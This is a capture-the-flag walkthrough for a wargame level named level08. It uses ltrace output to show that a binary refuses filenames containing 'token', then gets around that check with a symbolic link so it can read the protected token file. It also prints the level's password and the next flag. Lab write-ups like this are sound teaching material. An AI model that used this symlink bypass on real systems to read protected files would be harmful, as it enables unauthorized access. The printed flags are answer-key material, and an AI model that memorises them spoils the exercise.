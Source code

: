 ## level08
1. We are given `level08` binary executable and `token` text file, which we are restricted to read
2. First try to run level08 without arguments
```
$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)               = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
3. File to read required as parameter, so use token file
```
$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                 = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)             = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
4. It seems binary file compares string "token" with filename of passed file, and if they're similar, denies to go further. Create temporal file `/tmp/level08_test` (that not containing token in name), change its permissions and pass it to binary
```
$ ltrace ./level08 /tmp/level08_test
__libc_start_main(0x8048554, 2, 0xbffff6d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/level08_test", "token")                      = NULL
open("/tmp/level08_test", 0, 014435162522)                = 3
read(3, "", 1024)                                        = 0
write(1, "", 0)                                          = 0
+++ exited (status 0) +++
```
5. Binary just reads whats in passed file and prints it. Obviously we should pass `token` file, because it's the only way to read it. For this case creating of sybolic links will help using `ln -s` command
``` Bash
ln -s /home/user/level08/token /tmp/level08_ref
```
6. Executing `./level08 /tmp/level08_ref` results to flag08 user password: **quif5eloekouj29ke0vouxean**
7. Go to flag08 user and get flag:
``` Bash
su flag08
getflag
```
8. Flag for level09: **25749xKZ8L7DkSCwJkT9dyv6f**

### [< PREVIOUS LEVEL](../../level07/Resources/stages.md) | [NEXT LEVEL >](../../level09/Resources/stages.md)
### [MAIN MENU](../../README.md)

